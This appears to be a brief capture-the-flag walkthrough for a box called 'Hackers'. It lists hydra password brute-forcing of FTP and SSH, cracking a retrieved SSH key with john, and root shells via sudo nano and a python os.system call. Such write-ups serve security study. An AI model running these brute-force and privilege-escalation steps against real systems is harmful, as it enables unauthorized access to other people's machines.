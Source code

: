 # Hackers 
## Step 1
`ftp $IP` anonymous login *optional*
### Gcrawford Path
		1. `hydra ftp://$IP -l gcrawford -P /usr/share/wordlists/rockyou.txt -t 64`
		2. `ftp $IP` login with `gcrawford` and get `id_rsa` and `business.txt`
		3. `ssh2john.py id_rsa > ssh_hash.txt`
		4. `john ssh_hash.txt --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt`
			5. `ssh2john.py id_rsa > ssh_hash.txt && john ssh_hash.txt --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt`
		6. `ssh -i id_rsa -l gcrawford $IP `
		7. `sudo nano`
		8. CTRL+R, CTRL+X
		9. `reset; sh 1>&0 2>&0`
### Rcampbell Path
	1. `hydra ssh://$IP -l rcampbell -P /usr/share/wordlists/rockyou.txt -t 64`
	2. `getcap -r / 2>/dev/null` *optional*
	3. `python -c 'import os; os.system("/bin/sh")'`
	

